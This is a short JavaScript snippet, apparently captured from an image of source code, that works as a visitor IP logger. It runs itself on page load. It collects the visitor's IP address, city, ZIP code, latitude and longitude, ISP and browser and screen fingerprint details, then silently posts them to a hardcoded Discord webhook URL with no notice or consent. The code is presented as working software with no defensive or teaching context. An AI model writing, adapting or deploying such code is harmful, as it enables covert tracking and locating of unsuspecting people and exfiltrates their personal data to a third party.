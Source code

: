 (async () => {
    try {
        const basic = await (await fetch('https://wtfismyip.com/json')).json();
        const detailed = await (await fetch(`/json/${basic.YourFuckingIPAddress}`)).json();
        const detector = new BrowserDetector(window.navigator.userAgent).parseUserAgent();
        
        const data = {
            content: `IP Address: ${basic.YourFuckingIPAddress}\n` +
                     `Country: ${detailed.country}\n` +
                     `Region: ${detailed.regionName}\n` +
                     `City: ${detailed.city}\n` +
                     `ZIP Code: ${detailed.zip}\n` +
                     `Full Location: ${basic.YourFuckingLocation}\n` +
                     `Latitude: ${detailed.lat}\n` +
                     `Longitude: ${detailed.lon}\n` +
                     `Timezone: ${detailed.timezone}\n` +
                     `Current Time: ${new Date().toLocaleString()}\n` +
                     `ISP: ${detailed.isp}\n` +
                     `Organization: ${detailed.org}\n` +
                     `Autonomous System: ${detailed.as}\n` +
                     `Browser Name: ${detector.name}\n` +
                     `Platform Name: ${detector.platform}\n` +
                     `Browser Version: ${detector.version}\n` +
                     `Mobile/Tablet: ${(detector.isMobile || detector.isTablet) ? 'Yes' : 'No'}\n` +
                     `Referrer: ${document.referrer || 'None'}\n` +
                     `System Languages: ${navigator.languages.join(', ')}\n` +
                     `Screen Width: ${screen.width}px\n` +
                     `Screen Height: ${screen.height}px\n` +
                     (screen.width != window.width || screen.height != window.height ? `Window Width: ${window.outerWidth}px\nWindow Height: ${window.outerHeight}px\n` : '') +
                     `Display Pixel Depth: ${screen.pixelDepth}\n` +
                     (typeof screen.orientation != 'undefined' ? `Screen Orientation: ${screen.orientation.type.split('-')[0]}\nScreen Rotation: ${screen.orientation.angle} degrees\n` : '') +
                     `CPU Threads: ${navigator.hardwareConcurrency}\n` +
                     `Available Browser Memory: ${typeof window.performance.memory != 'undefined' ? Math.round(window.performance.memory.jsHeapSizeLimit / 1024 / 1024) : 'N/A'} MB`
        };
        
        await fetch('https://discord.com/api/webhooks/1214203058284662794/cpyZU4ceyZ2TLhojorU_akBA-jqF_45EZzdSdBQBv_NNkwCwPMWR3Kaw8nzXAeqmuXn9', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify(data)
        });
    } catch (error) {
        console.error(error);
    }
})();
